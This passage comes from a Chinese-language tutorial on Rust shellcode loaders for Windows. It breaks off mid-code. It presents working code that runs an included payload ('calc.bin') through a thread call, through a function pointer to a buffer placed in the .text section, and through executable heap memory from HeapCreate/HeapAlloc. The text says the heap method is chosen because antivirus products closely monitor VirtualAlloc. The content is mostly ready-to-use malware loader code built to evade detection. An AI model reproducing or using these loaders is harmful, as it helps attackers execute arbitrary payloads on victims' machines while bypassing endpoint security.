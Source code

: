 ```Rust
                std::ptr::null_mut(),
                0,
                &mut threadid,
            );

            WaitForSingleObject(threadhandle, 0xFFFFFFFF);
        } else {
            println!("执行失败：{}", GetLastError());
        }
    }
}

```

### 函数指针
`link_section`是Rust的一个[attribute](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)，它用来将特定的函数或者变量放到程序的指定的区块中，`.text`区块通常用来存储程序的执行代码，它会被加载到内存中并由处理器执行。
然后通过`std::mem::transmute`将 `*const u8` 类型的指针转换为函数类型 `fn()`，最后执行shellcode。
``` Rust
fn main() {
    const BUFFER_BYTES:&[u8] = include_bytes!("..\\calc.bin");
    const BUFFER_SIZE:usize = BUFFER_BYTES.len();

    #[link_section = ".text"]
    static BUFFER:[u8;BUFFER_SIZE] = *include_bytes!("..\\calc.bin");
    unsafe{
        let exec = std::mem::transmute::<*const u8,fn()>(&BUFFER as *const u8);
        exec();
    }
}
```

### 通过 heapapi 申请内存
由于`VirtualAlloc`是各大杀软的重点监控对象，所以通常需要使用其他的API来替代，下面介绍的是另一个常见的内存申请方式，即通过`HeapCreate/HeapAlloc`的组合来创建内存空间。
参考：[HeapCreate function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate), [HeapAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)

该方式同样需要先引入依赖，在`Cargo.toml`文件中添加如下依赖：
```toml
[dependencies]
winapi = {version="0.3.9",features=["winuser","heapapi","errhandlingapi"]}
```

该方法通过`HeapCreate`创建`HEAP_CREATE_ENABLE_EXECUTE`权限的内存堆，然后通过`HeapAlloc`来从堆中分配内存空间，最后通过函数指针的方式执行shellcode。
```rust
use std::mem::transmute;
use winapi::ctypes::c_void;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::heapapi::HeapAlloc;
use winapi::um::heapapi::HeapCreate;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let heap = HeapCreate(0x40000, 0, 0);
        let ptr = HeapAlloc(heap, 8, buffer.len());

        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());
            let exec = transmute::<*mut c_void, fn()>(ptr);
```